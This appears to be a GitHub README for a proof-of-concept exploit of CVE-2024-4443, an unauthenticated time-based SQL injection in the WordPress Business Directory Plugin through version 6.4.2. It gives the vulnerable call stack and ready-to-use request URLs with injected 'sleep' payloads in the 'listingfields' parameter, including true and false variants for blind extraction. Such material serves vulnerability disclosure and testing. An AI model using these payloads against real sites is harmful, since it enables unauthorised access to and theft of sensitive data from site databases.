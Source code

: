 # CVE-2024-4443-Poc
CVE-2024-4443 Business Directory Plugin – Easy Listing Directories for WordPress &lt;= 6.4.2 - Unauthenticated SQL Injection via listingfields Parameter

File: https://github.com/truonghuuphuc/CVE-2024-4443-Poc/blob/main/business-directory-plugin.6.4.2.zip

Description

The Business Directory Plugin – Easy Listing Directories for WordPress plugin for WordPress is vulnerable to time-based SQL Injection via the ‘listingfields’ parameter in all versions up to, and including, 6.4.2 due to insufficient escaping on the user supplied parameter and lack of sufficient preparation on the existing SQL query. This makes it possible for unauthenticated attackers to append additional SQL queries into already existing queries that can be used to extract sensitive information from the database

https://www.wordfence.com/threat-intel/vulnerabilities/wordpress-plugins/business-directory-plugin/business-directory-plugin-easy-listing-directories-for-wordpress-642-unauthenticated-sql-injection-via-listingfields-parameter

Call stack
```
WPBDP__Listing_Search->execute (\business-directory-plugin\includes\helpers\class-listing-search.php:88)
WPBDP__Listing_Search->_traverse_tree (\business-directory-plugin\includes\helpers\class-listing-search.php:185)
WPBDP__Listing_Search->__construct (\business-directory-plugin\includes\helpers\class-listing-search.php:35)
WPBDP__Listing_Search::parse_request (\business-directory-plugin\includes\helpers\class-listing-search.php:214)
WPBDP__Listing_Search::from_request (\business-directory-plugin\includes\helpers\class-listing-search.php:210)
WPBDP__Views__Search->dispatch (\business-directory-plugin\includes\controllers\pages\class-search.php:54)
```

Poc

Url: ```<Host>/business-directory/?dosrch=1&q=&wpbdp_view=search&listingfields[{{Injection payload}}][1]=```

Url normal: ```<Host>/business-directory/?dosrch=1&q=&wpbdp_view=search&listingfields[1]=``` 
![image](https://github.com/truonghuuphuc/CVE-2024-4443-Poc/assets/20487674/5a7c5a4b-773b-4976-8da7-8496873cf47b)


Url paload false: ```<Host>/business-directory/?dosrch=1&q=&wpbdp_view=search&listingfields[+or+sleep(if(1=0,5,0))+))--+-][1]=```
![image](https://github.com/truonghuuphuc/CVE-2024-4443-Poc/assets/20487674/888c7053-456c-419b-b086-95add0fbbd4c)


Url paload true: ```<Host>/business-directory/?dosrch=1&q=&wpbdp_view=search&listingfields[+or+sleep(if(1=1,5,0))+))--+-][1]=```
![image](https://github.com/truonghuuphuc/CVE-2024-4443-Poc/assets/20487674/8fffd986-6d31-4665-b057-afbb5ce13f56)

